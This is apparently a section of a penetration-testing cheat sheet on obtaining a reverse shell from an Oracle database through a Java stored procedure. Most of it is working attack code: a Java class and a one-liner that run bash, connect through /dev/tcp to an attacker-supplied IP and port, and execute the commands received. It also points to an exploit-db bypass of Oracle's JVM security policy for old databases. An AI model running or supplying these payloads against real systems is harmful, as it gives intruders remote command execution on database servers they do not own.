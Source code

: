 # Reverse Shell

This approach will not work as the Oracle JVM implements fine grain policy-based security to control access to the OS and filesystem.  Executing this procedure from a low-permissioned account results in errors. (some old database bypasses are [available](https://www.exploit-db.com/exploits/33601/) however). Create or replace procedure reverse_shell `(p_ip IN VARCHAR2, p_port IN VARCHAR2)` IS language java name `'ReverseShell.getConnection(java.lang.String, java.lang.String)';`.
 
```java
import java.io.*;

public class ReverseShell {
 public static void getConnection(String ip, String port) throws InterruptedException, IOException {
   Runtime r = Runtime.getRuntime();
   Process p = r.exec(new String[]{"/bin/bash","-c","0<&126-;exec 126<>/dev/tcp/" + ip + "/" + port + ";/bin/bash <&126 >&126 2>&126"});
   System.out.println(p.toString());
   p.waitFor();
 }
}
```

One-liner.

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/<IP>/<PORT>;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
